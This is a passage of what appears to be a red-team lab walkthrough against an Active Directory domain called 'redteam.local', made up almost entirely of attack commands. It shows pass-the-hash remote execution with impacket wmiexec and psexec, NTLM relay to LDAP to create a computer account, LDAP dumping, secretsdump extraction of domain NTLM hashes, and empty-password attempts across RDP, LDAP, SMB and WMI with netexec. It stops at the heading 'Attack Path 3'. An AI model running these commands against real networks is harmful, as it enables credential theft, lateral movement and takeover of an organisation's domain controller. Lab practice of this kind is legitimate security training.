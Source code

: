 ```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :{NT hash} redteam.local/{user}@192.168.0.100
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :{NT hash} redteam.local/{user}@192.168.0.100
```

# Attack Path 2
## DC01
### Relay credentials to LDAP on DC
```
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py --no-smb-server -t ldap://192.168.0.100 --add-computer {NewComputer} {NewComputer Password}
```

### Use the newly created credentials to dump LDAP
```
ldapdomaindump -u redteam.local\\{NewComputer}$ -p "{NewComputer Password}" 192.168.0.100
```

### Several methods to use empty password
Without supplying a password:
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm -dc-ip 192.168.0.100 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 redteam.local/adm_domain@192.168.0.100
```

Prompts for an empty password (just use enter):
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm -dc-ip 192.168.0.100 redteam.local/adm_domain@192.168.0.100
```

```
netexec rdp -u adm_domain -p '' -d redteam.local 192.168.0.100
```

```
netexec ldap -u adm_domain -p '' -d redteam.local 192.168.0.100
```

```
netexec smb -u adm_domain -p '' -d redteam.local 192.168.0.100
```

```
netexec wmi -u adm_domain -p '' -d redteam.local 192.168.0.100
```

# Attack Path 3
### Previous steps in Attack Path 2
